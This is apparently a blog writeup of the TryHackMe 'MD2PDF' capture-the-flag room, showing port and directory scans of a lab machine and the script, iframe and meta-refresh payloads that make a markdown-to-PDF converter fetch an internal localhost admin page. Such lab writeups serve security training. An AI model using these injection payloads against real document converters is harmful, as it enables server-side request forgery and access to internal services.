 ```yaml
---
layout: post
title: "MD2PDF (Tryhackme)— Writeup"
date: 2023-06-24 
categories: [Tryhackme,XSS]
tags: [tryhackme, challenge, enumeration, xss, web, pdf, markdown, ssrf, MD2PDF]
image: /assets/img/Posts/md2pdf.png
---
```



## INTRODUCTION

Hello Hacker!

TopTierConversions LTD is proud to announce its latest and greatest product launch: MD2PDF.

This easy-to-use utility converts markdown files to PDF and is totally secure! Right...? 

This an easy rated room in tryhackme exploiting pdf xss.

The challenge can be foud here. <https://tryhackme.com/room/md2pdf>

## Initial recon - Port scanning

The first step is to conduct a port scan to identify open ports and the services that are running on those ports. Lets run nmap.

```shell
nmap -sC 10.10.26.251 -o nmap.out
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-24 07:28 EAT
Nmap scan report for 10.10.26.251
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 cd:bd:77:b7:fd:a3:fc:9e:f5:bd:74:30:61:74:2f:24 (RSA)
|   256 0f:f5:6f:f8:39:38:47:a5:89:87:dc:61:3e:4f:8c:32 (ECDSA)
|_  256 67:3e:8a:79:5d:83:12:e6:65:42:11:07:62:15:1e:d2 (ED25519)
80/tcp   open  http
|_http-title: MD2PDF
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 41.90 seconds
            
```

## Directory Scanning

Let's scan for directories using gobuster.
```shell
 gobuster dir -u http://10.10.26.251/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.26.251/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/23 16:41:46 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
/convert              (Status: 405) [Size: 178]

```

## Checking ot the Directories

There is a `/admin` directory. Upon visiting this directory, there is some interesting information. It s only accessible through localhost:5000/admin

![website](/assets/img/Posts/md2_forbidden.png)

## Test for XSS 

To test for this we go back to the root directory http://10.10.26.251/ . Here we have to establish acces to localhost:5000/admin. 

I try some payoads to seee if we have anything interesting.


`<script>alert(1)</script>`

 
All the above are just giving a blank screen instead of fetching the flag. However, it tells us we are close but have to adjust our payloads.

`<script>document.write(document.location.href)</script>`  returns something interesting.

![website](/assets/img/Posts/md2_file.png)

After trying multiple techniques, I employ a new technique.


## Javascript Code Injection
Let's check the page source for clues.

![website](/assets/img/Posts/js.png)

I can try to tell the script to redirect me to the admin directory.
I finally manage to get working scripts and the fetch the flag. :)


```shell
<script>
    window.location.href = 'http://localhost:5000/admin';
</script>
```


```shell
<iframe src="http://localhost:5000/admin" height="1000" width="1000">
</iframe>
```


```shell
<meta http-equiv="refresh" content="0;URL='http://localhost:5000/admin'">
```
And we have the flag.

![website](/assets/img/Posts/md2_flag.png)

## HAPPY HACKING 
## KEEP LEARNING! ♥